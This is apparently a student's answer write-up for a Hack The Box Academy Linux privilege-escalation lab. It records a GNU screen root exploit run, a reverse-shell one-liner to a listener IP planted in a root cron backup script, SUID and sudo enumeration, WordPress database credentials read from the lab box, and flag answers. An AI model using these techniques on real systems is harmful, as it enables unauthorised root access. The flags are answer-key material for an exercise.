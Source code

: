 # Web Requests
* Source: [Hack the Box: Academy](https://academy.hackthebox.com/)
* Module: Linux Privilege Escalation
* Tier: II
* Difficulty: Easy
* Category: Offensive
* Time estimate: 8 hours
* Date: DD-MM-YYYY
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Kernel Exploits
### Question:
![](./attachments/Pasted%20image%2020221116125927.png)

**Answer:** ``

---
## Vulnerable Services
### Question:
![](./attachments/Pasted%20image%2020221116125949.png)

```
┌──(kali㉿kali)-[/etc]
└─$ ssh htb-student@10.129.93.127   
htb-student@10.129.93.127's password: 
Permission denied, please try again.
htb-student@10.129.93.127's password: 
Permission denied, please try again.
htb-student@10.129.93.127's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

242 packages can be updated.
174 updates are security updates.


Last login: Wed Nov 16 12:50:06 2022 from 10.10.15.45
htb-student@NIX02:~$ touch script.sh
htb-student@NIX02:~$ nano script.sh

```

Insert the exploit code in `script.sh` and save.

```
htb-student@NIX02:~$ chmod +x script.sh
htb-student@NIX02:~$ ./script.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /run/screen/S-htb-student.

# cat /root/screen_exploit/flag.txt
91927dad55ffd22825660da88f2f92e0
```

**Answer:** `91927dad55ffd22825660da88f2f92e0`

---
## Cron Job Abuse
### Question:
![](./attachments/Pasted%20image%2020221116133342.png)

```
htb-student@NIX02:~$ cat /dmz-backups/backup.sh
#!/bin/bash
 SRCDIR="/var/www/html"
 DESTDIR="/dmz-backups/"
 FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
 tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
 htb-student@NIX02:~$ nano /dmz-backups/backup.sh
```

Insert one liner payload `bash -i >& /dev/tcp/10.10.15.45/443 0>&1` and save.

Then setup `netcat` to listen for the incoming connection.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lnvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.93.127.
Ncat: Connection from 10.129.93.127:45650.
bash: cannot set terminal process group (1884): Inappropriate ioctl for device
bash: no job control in this shell
root@NIX02:~# cat cron_abuse/flag.txt
cat cron_abuse/flag.txt
14347a2c977eb84508d3d50691a7ac4b
```

**Answer:** `14347a2c977eb84508d3d50691a7ac4b`

---
## Special Permissions
### Question 1:
![](./attachments/Pasted%20image%2020221116134354.png)

```
htb-student@NIX02:~$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
-rwsr-xr-x 1 root root 8816 Nov 16 12:55 /tmp/rootshell
-rwsr-xr-x 1 root root 16728 Sep  1  2020 /home/htb-student/shared_obj_hijack/payroll
-rwsr-xr-x 1 root root 16728 Sep  1  2020 /home/mrb3n/payroll
-rwSr--r-- 1 root root 0 Aug 31  2020 /home/cliff.moore/netracer
-rwsr-xr-x 1 root root 40152 Nov 30  2017 /bin/mount
-rwsr-xr-x 1 root root 40128 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 73424 Feb 12  2016 /bin/sed
-rwsr-xr-x 1 root root 27608 Nov 30  2017 /bin/umount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 428240 Jan 18  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 23376 Jan 18  2016 /usr/bin/pkexec
-rwsr-sr-x 1 root root 240 Feb  1  2016 /usr/bin/facter
-rwsr-xr-x 1 root root 39904 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 75304 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 54256 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 10624 May  9  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 1588768 Aug 31  2020 /usr/bin/screen-4.5.0
-rwsr-xr-x 1 root root 94240 Jun  9  2020 /sbin/mount.nfs
```

**Answer:** `/bin/sed`

### Question 2:
![](./attachments/Pasted%20image%2020221116134405.png)

```
htb-student@NIX02:~$ find / -uid 0 -perm -6000 -type f 2>/dev/null
/usr/lib/snapd/snap-confine
/usr/bin/facter
```

**Answer:** `/usr/bin/facter`

---
## Sudo Rights Abuse
### Question:
![](./attachments/Pasted%20image%2020221116135558.png)

```
htb-student@NIX02:~$ sudo -l
Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl
```

**Answer:** `/usr/bin/openssl`

---
## Path Abuse
### Question:
![](./attachments/Pasted%20image%2020221116140516.png)

```
htb-student@NIX02:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/tmp
```

**Answer:** `/tmp`

---
## 
### Question:
![](./attachments/Pasted%20image%2020221116141355.png)
*Hint: Look in the default WordPress configuration file.*

```
htb-student@NIX02:~$ ls /var/www/html
index.php    wp-activate.php     wp-comments-post.php  wp-content   wp-links-opml.php  wp-mail.php      wp-trackback.php
license.txt  wp-admin            wp-config.php         wp-cron.php  wp-load.php        wp-settings.php  xmlrpc.php
readme.html  wp-blog-header.php  wp-config-sample.php  wp-includes  wp-login.php       wp-signup.php
htb-student@NIX02:~$ cat /var/www/html/wp-config.php | grep 'DB_USER\|DB_PASSWORD'
define( 'DB_USER', 'wordpressuser' );
define( 'DB_PASSWORD', 'W0rdpr3ss_sekur1ty!' );
htb-student@NIX02:~$
```

**Answer:** `W0rdpr3ss_sekur1ty!`

---
## 
### Question:


**Answer:** ``

---
## 
### Question:


**Answer:** ``

---
**Tags:** [[Hack The Box Academy]]